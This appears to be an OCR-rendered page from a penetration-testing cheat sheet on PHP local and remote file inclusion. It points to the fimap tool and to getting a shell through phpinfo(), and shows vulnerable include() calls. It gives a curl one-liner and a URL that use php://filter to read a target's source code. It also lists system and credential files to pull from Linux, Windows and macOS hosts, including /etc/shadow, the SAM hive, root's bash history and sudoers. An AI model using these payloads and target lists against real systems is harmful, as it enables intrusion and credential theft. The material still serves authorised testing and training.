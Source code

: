 -   File Inclusion Vulnerabilities
    -----------------------------------------------------------------------------------------------------------------------------
 
    -   Local (LFI) and remote (RFI) file inclusion vulnerabilities are
        commonly found in poorly written PHP code.
 
    -   fimap - There is a Python tool called fimap which can be
        leveraged to automate the exploitation of LFI/RFI
        vulnerabilities that are found in PHP (sqlmap for LFI):  
        [*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)
 
        -   Gaining a shell from phpinfo()  
            fimap + phpinfo() Exploit - If a phpinfo() file is present,
            it’s usually possible to get a shell, if you don’t know the
            location of the phpinfo file fimap can probe for it, or you
            could use a tool like OWASP DirBuster.
 
    -   For Local File Inclusions look for the include() function in PHP
        code.  
        include("lang/".$\_COOKIE\['lang'\]);  
        include($\_GET\['page'\].".php");
 
    -   LFI - Encode and Decode a file using base64  
        curl -s
        http://$ip/?page=php://filter/convert.base64-encode/resource=index
        | grep -e '\[^\\ \]\\{40,\\}' | base64 -d
 
    -   LFI - Download file with base 64 encoding  
        [*http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php*](about:blank)
 
    -   LFI Linux Files:  
        /etc/issue  
        /proc/version  
        /etc/profile  
        /etc/passwd  
        /etc/passwd  
        /etc/shadow  
        /root/.bash\_history  
        /var/log/dmessage  
        /var/mail/root  
        /var/spool/cron/crontabs/root
 
    -   LFI Windows Files:  
        %SYSTEMROOT%\\repair\\system  
        %SYSTEMROOT%\\repair\\SAM  
        %SYSTEMROOT%\\repair\\SAM  
        %WINDIR%\\win.ini  
        %SYSTEMDRIVE%\\boot.ini  
        %WINDIR%\\Panther\\sysprep.inf  
        %WINDIR%\\system32\\config\\AppEvent.Evt
 
    -   LFI OSX Files:  
        /etc/fstab  
        /etc/master.passwd  
        /etc/resolv.conf  
        /etc/sudoers  
        /etc/sysctl.conf
 